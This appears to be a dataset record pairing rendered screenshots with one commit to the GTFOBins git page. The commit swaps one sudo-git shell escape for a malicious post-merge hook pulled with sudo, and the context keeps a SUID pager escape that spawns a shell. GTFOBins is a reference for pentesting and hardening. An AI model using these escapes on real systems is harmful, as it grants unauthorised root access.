

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 84% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Think I finally got it here.

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -18,8 +18,8 @@ functions:
         !/bin/sh
     - description: This can be useful when only git pull is allowed sudo access. Any commands in the `post-merge` git hook of the repository which is pulled will be executed as root.
       code: |
-        sudo git branch --help config
-        !/bin/sh
+       git remote add <name> <repo with malicious post-merge hook>
+       sudo git pull <name>
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
